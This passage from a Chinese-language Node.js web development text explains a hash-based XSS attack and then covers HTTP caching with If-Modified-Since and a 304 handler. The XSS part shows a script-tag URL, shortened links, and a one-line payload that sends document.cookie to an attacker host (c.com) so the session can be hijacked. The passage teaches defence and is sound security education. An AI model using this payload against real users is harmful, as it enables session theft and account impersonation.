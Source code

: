 ```html
http://a.com/pathname#<script src="http://b.com/c.js"></script>
```
为了不让受害者直接发现这段URL中的猫腻，它可能会通过URL压缩成一个短网址，如下所示：

```
http://t.cn/fasdlfj 
// 或者再次压缩 
http://url.cn/fasdlfb
```
然后将最终的短网址发给某个登录的在线用户。这样一来，这段hash中的脚本将会在这个用户的浏览器中执行，而这段脚本中的内容如下所示：

```js
location.href = "http://c.com/?" + document.cookie;
```
这段代码将该用户的Cookie提交给了c.com站点，这个站点就是攻击者的服务器，他也就能拿到该用户的Session口令。然后他在客户端中用这个口令伪造Cookie，从而实现了伪装用户的身份。如果该用户是网站管理员，就可能造成极大的危害。

XSS造成的危害远远不止这些，这里不再过多介绍。在这个案例中，如果口令中有用户的客户端信息的签名，即使口令被泄漏，除非攻击者与用户客户端完全相同，否则不能实现伪造。

#### 缓存

我们知道软件的架构经历过一次C/S模式到B/S模式的演变，在HTTP之上构建的应用，其客户端除了比普通桌面应用具备更轻量的升级和部署等特性外，在跨平台、跨浏览器、跨设备上也具备独特优势。传统客户端在安装后的应用过程中仅仅需要传输数据，Web应用还需要传输构成界面的组件（HTML、JavaScript、CSS文件等）。这部分内容在大多数场景下并不经常变更，却需要在每次的应用中向客户端传递，如果不进行处理，那么它将造成不必要的带宽浪费。如果网络速度较差，就需要花费更多时间来打开页面，对于用户的体验将会造成一定影响。因此节省不必要的传输，对用户和对服务提供者来说都有好处。

为了提高性能，YSlow中也提到几条关于缓存的规则。

- 添加Expires或Cache-Control到报文头中。
- 配置ETags。
- 让Ajax可缓存。

这里我们将展开这几条规则的来源。如何让浏览器缓存我们的静态资源，这也是一个需要由服务器与浏览器共同协作完成的事情。RFC 2616规范对此有一定的描述，只有遵循约定，整个缓存机制才能有效建立。通常来说，POST、DELETE、PUT这类带行为性的请求操作一般不做任何缓存，大多数缓存只应用在GET请求中。使用缓存的流程如下图所示。

![使用缓存的流程示意图](https://graphbed.qiniu.songxingguo.com/Node-Web-App/%E4%BD%BF%E7%94%A8%E7%BC%93%E5%AD%98%E7%9A%84%E6%B5%81%E7%A8%8B%E7%A4%BA%E6%84%8F%E5%9B%BE.jpg)

简单来讲，本地没有文件时，浏览器必然会请求服务器端的内容，并将这部分内容放置在本地的某个缓存目录中。在第二次请求时，它将对本地文件进行检查，如果不能确定这份本地文件是否可以直接使用，它将会发起一次条件请求。所谓条件请求，就是在普通的GET请求报文中，附带If-Modified-Since字段，如下所示：

```
If-Modified-Since: Sun, 03 Feb 2013 06:01:12 GMT
```
它将询问服务器端是否有更新的版本，本地文件的最后修改时间。如果服务器端没有新的版本，只需响应一个304状态码，客户端就使用本地版本。如果服务器端有新的版本，就将新的内容发送给客户端，客户端放弃本地版本。代码如下所示：

```js
var handle = function(req, res) {
  fs.stat(filename,
  function(err, stat) {
    var lastModified = stat.mtime.toUTCString();
    if (lastModified === req.headers['if-modified-since']) {
      res.writeHead(304, "Not Modified");
      res.end();
    } else {
      fs.readFile(filename,
      function(err, file) {
        var lastModified = stat.mtime.toUTCString();
        res.setHeader("Last-Modified", lastModified);
        res.writeHead(200, "Ok");
        res.end(file);
      });
    }
  });
};
```
这里的条件请求采用时间戳的方式实现，但是时间戳有一些缺陷存在。
